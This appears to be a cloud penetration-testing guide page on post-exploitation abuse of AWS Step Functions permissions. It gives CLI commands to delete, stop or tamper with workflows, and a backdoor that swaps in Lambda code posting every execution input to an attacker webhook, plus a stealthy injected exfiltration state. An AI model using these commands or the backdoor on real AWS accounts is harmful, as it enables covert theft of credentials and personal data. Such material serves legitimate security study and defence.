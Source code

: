 # AWS - Step Functions Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Step Functions

For more information about this AWS service, check:

{{#ref}}
../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### `states:RevealSecrets`

This permission allows to **reveal secret data inside an execution**. For it, it's needed to set Inspection level to TRACE and the revealSecrets parameter to true.

<figure><img src="../../../images/image (348).png" alt=""><figcaption></figcaption></figure>

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

An attacker with these permissions would be able to permanently delete state machines, their versions, and aliases. This can disrupt critical workflows, result in data loss, and require significant time to recover and restore the affected state machines. In addition, it would allow an attacker to cover the tracks used, disrupt forensic investigations, and potentially cripple operations by removing essential automation processes and state configurations.

> [!NOTE]
>
> - Deleting a state machine you also delete all its associated versions and aliases.
> - Deleting a state machine alias you do not delete the state machine versions referecing this alias.
> - It is not possible to delete a state machine version currently referenced by one o more aliases.

```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```

- **Potential Impact**: Disruption of critical workflows, data loss, and operational downtime.

### `states:UpdateMapRun`

An attacker with this permission would be able to manipulate the Map Run failure configuration and parallel setting, being able to increase or decrease the maximum number of child workflow executions allowed, affecting directly and performance of the service. In addition, an attacker could tamper with the tolerated failure percentage and count, being able to decrease this value to 0 so every time an item fails, the whole map run would fail, affecting directly to the state machine execution and potentially disrupting critical workflows.

```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```

- **Potential Impact**: Performance degradation, and disruption of critical workflows.

### `states:StopExecution`

An attacker with this permission could be able to stop the execution of any state machine, disrupting ongoing workflows and processes. This could lead to incomplete transactions, halted business operations, and potential data corruption.

> [!WARNING]
> This action is not supported by **express state machines**.

```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```

- **Potential Impact**: Disruption of ongoing workflows, operational downtime, and potential data corruption.

### `states:TagResource`, `states:UntagResource`

An attacker could add, modify, or remove tags from Step Functions resources, disrupting your organization's cost allocation, resource tracking, and access control policies based on tags.

```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```

**Potential Impact**: Disruption of cost allocation, resource tracking, and tag-based access control policies.

---

### `states:UpdateStateMachine`, `lambda:UpdateFunctionCode`

An attacker who compromises a user or role with the following permissions:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowUpdateStateMachine",
      "Effect": "Allow",
      "Action": "states:UpdateStateMachine",
      "Resource": "*"
    },
    {
      "Sid": "AllowUpdateFunctionCode",
      "Effect": "Allow",
      "Action": "lambda:UpdateFunctionCode",
      "Resource": "*"
    }
  ]
}
```

...can conduct a **high-impact and stealthy post-exploitation attack** by combining Lambda backdooring with Step Function logic manipulation.

This scenario assumes that the victim uses **AWS Step Functions to orchestrate workflows that process sensitive input**, such as credentials, tokens, or PII.

Example victim invocation:

```bash
aws stepfunctions start-execution \
  --state-machine-arn arn:aws:states:us-east-1:<victim-account-id>:stateMachine:LegitStateMachine \
  --input '{"email": "victim@example.com", "password": "hunter2"}' --profile victim
```

If the Step Function is configured to invoke a Lambda like `LegitBusinessLogic`, the attacker can proceed with **two stealthy attack variants**:

---

####  Updated the lambda function

The attacker modifies the code of the Lambda function already used by the Step Function (`LegitBusinessLogic`) to silently exfiltrate input data.

```python
# send_to_attacker.py
import requests

def lambda_handler(event, context):
    requests.post("https://webhook.site/<attacker-id>/exfil", json=event)
    return {"status": "exfiltrated"}
```

```bash
zip function.zip send_to_attacker.py

aws lambda update-function-code \
  --function-name LegitBusinessLogic \
  --zip-file fileb://function.zip -profile attacker
```

---

#### Add a Malicious State to the Step Function

Alternatively, the attacker can inject an **exfiltration state** at the beginning of the workflow by updating the Step Function definition.

```malicious_state_definition.json
{
  "Comment": "Backdoored for Exfiltration",
  "StartAt": "OriginalState",
  "States": {
    "OriginalState": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:<victim-id>:function:LegitBusinessLogic",
      "End": true
    }
  }
}

```

```bash
aws stepfunctions update-state-machine \
  --state-machine-arn arn:aws:states:us-east-1:<victim-id>:stateMachine:LegitStateMachine \
  --definition file://malicious_state_definition.json --profile attacker
```

The attacker can even more stealthy to update the state definition to something like this 
{
  "Comment": "Backdoored for Exfiltration",
  "StartAt": "ExfiltrateSecrets",
  "States": {
    "ExfiltrateSecrets": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:victim-id:function:SendToAttacker",
      "InputPath": "$",
      "ResultPath": "$.exfil",
      "Next": "OriginalState"
    },
    "OriginalState": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:victim-id:function:LegitBusinessLogic",
      "End": true
    }
  }  
}
 where the victim won't realize the different 

---

### Victim Setup (Context for Exploit)

- A Step Function (`LegitStateMachine`) is used to process sensitive user input.
- It calls one or more Lambda functions such as `LegitBusinessLogic`.

---

**Potential Impact**:  
- Silent exfiltration of sensitive data including secrets, credentials, API keys, and PII.
- No visible errors or failures in workflow execution.
- Difficult to detect without auditing Lambda code or execution traces.
- Enables long-term persistence if backdoor remains in code or ASL logic.


{{#include ../../../banners/hacktricks-training.md}}




